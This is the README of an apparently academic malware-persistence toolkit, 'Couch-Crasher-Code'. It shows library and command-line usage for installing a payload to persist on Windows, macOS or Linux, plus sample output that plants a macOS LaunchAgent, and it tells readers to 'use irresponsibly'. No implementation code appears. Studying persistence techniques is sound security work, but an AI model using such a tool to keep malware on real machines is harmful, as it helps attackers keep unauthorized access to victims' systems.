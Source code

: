 # Couch-Crasher-Code

A multi-platform persistence toolkit, with the goal of simplifying malware deployment.

Developed as a capstone project for the Southern Alberta Institute of Technology's Information Systems Security program (Winter 2024), to demonstrate the many techniques that can be used to achieve persistence on Windows, macOS, and Linux.

Please use irresponsibly.


## Setup

Requires Python 3.6 or newer, install from official website when applicable: [python.org](https://www.python.org/downloads/).

Additional dependencies can be installed with pip:
```sh
python -m pip install -r requirements.txt
```


## Usage

Project designed to be used either as a library or as a standalone executable.

### Library

```python
from couchcrasher import CouchCrasher

couchcrasher = CouchCrasher("/path/to/malware")

couchcrasher.supported_persistence_methods()
couchcrasher.recommended_persistence_method()
couchcrasher.install()
```


### Executable - Help
```
$ couchcrasher (-h | --help)

>>> usage: couchcrasher [-h] [-p PAYLOAD] [-m METHOD] [-v] [-l]
>>>
>>> Install a payload for persistence on Windows, macOS, or Linux.
>>>
>>> options:
>>>   -h, --help            show this help message and exit
>>>   -p PAYLOAD, --payload PAYLOAD
>>>                         The payload to install.
>>>   -m METHOD, --method METHOD
>>>                         The custom persistence method to use (optional).
>>>   -v, --version         show program's version number and exit
>>>   -l, --list-supported-methods
>>>                         List the supported persistence methods for the current OS.
```

### Executable - Install Payload

Best method determined by privilege and other environmental factors if no method is specified.
```
$ couchcrasher (-p | --payload) <malware> (-m | --method) <method>

>>> Creating persistence
>>>   Payload: <malware>
>>>   OS: macOS
>>>   Effective User ID: 501
>>>   Persistence Method: "LaunchAgent - Current User"
>>> Installing launch service (LaunchAgent - Current User)
>>>   Relocated payload: /Users/target/Library/LaunchAgents/713753
>>>   Service file: /Users/target/Library/LaunchAgents/com.80309.plist
>>>   Service started successfully 🎉
```

## Authors

* [Ezra Fast](https://github.com/EzraFast1)
* [Mitchell Nicholson](https://github.com/1Kalagen1)
* [Mykola Grymalyuk](https://github.com/khronokernel)
* [Scott Banister](https://github.com/pleasantriess)
* [Ulysses Hill](https://github.com/Ulysses-Hill)